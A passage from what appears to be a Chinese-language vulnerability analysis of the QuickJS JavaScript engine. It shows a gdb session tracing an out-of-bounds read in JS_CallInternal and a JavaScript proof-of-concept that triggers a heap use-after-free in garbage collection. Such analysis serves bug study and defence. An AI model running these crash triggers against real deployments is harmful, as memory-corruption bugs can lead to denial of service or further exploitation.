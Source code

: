 经过调试可以看到idx等于0xffff：

```
(gdb) x/5i $rip
=&gt; 0x5555555e5a6e &lt;JS_CallInternal+19438&gt;:    movzwl (%r12),%eax
0x5555555e5a73 &lt;JS_CallInternal+19443&gt;:    shl    $0x4,%rax
0x5555555e5a77 &lt;JS_CallInternal+19447&gt;:    add    -0x148(%rbp),%rax
0x5555555e5a7e &lt;JS_CallInternal+19454&gt;:    mov    (%rax),%rdx
0x5555555e5a81 &lt;JS_CallInternal+19457&gt;:    mov    0x8(%rax),%rax
(gdb) x/gx $r12 - 1
0x7ffff77bf090:    0x0000000029ffff5b
(gdb) p 0x5b
$1 = 91
(gdb) ni
(gdb) x/i $rip
=&gt; 0x5555555e5a73 &lt;JS_CallInternal+19443&gt;:    shl    $0x4,%rax
(gdb) p/x $rax
$2 = 0xffff
```

idx大小超过arg_buf的长度，之后会发生越界读取，造成程序崩溃。

[![](https://p3.ssl.qhimg.com/t0163109a1a22708568.gif)](https://p3.ssl.qhimg.com/t0163109a1a22708568.gif)

### <a class="reference-link" name="3.2%20Heap-use-after-free_gc_decref_child"></a>3.2 Heap-use-after-free_gc_decref_child

```
Heap-use-after-free_gc_decref_child.js

    var v13 = RegExp();
    var v15 = Symbol.search;
    var v19 = [1337,1337];
    function v27(v28,v29,v30) `{`
        var v32 = `{`...v19,...v30`}`;
        var v44 = new Proxy(Promise,this);
        var v45 = v32.__proto__;
        v45.__proto__ = v44;
        return v44;
    `}`
    function v46(v47) `{`
        return v47;
    `}`
    var v54 = `{`get:v46`}`;
    var v56 = new Proxy(v27,v54);
    function v57(v58,v59) `{`
        var v61 = new Uint16Array(v56);
    `}`
    var v63 = new Promise(v57);
    var v64 = v13[v15];
    var v68 = v19.some(v64,v19);
```
